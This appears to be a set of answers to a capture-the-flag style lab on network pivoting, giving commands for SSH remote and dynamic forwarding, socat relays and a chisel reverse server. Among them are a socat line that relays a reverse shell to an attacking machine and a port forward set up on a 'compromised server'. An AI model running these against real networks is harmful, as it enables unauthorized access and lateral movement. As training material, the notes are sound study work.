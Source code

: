> Nay

- What command would you use to create a pair of throwaway SSH keys for a reverse connection?

> ssh-keygen

- If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called id_rsa and backgrounding the shell, what command would you use? (Assume your username is "kali")

> ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN

- What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?

> ssh -D 8000 user@target.thm -fN

- If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

> ssh -L 8000:127.0.0.1:80  user@172.16.0.50 -fN

---

#### ***Pivoting** plink.exe*

- What tool can be used to convert OpenSSH keys into PuTTY style keys?

> puttygen

---

#### ***Pivoting** Socat*

- Which socat option allows you to reuse the same listening port for more than one connection?

> reuseaddr

- If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and do not background the process.

> ./socat -tcp-l:8000 tcp:172.16.0.200:443

- What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?

> ./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &

---

#### ***Pivoting** Chisel*

- What command would you use to start a chisel server for a reverse connection on your attacking machine?

Use port 4242 for the listener and do not background the process.

> ./chisel server -p 4242 --reverse
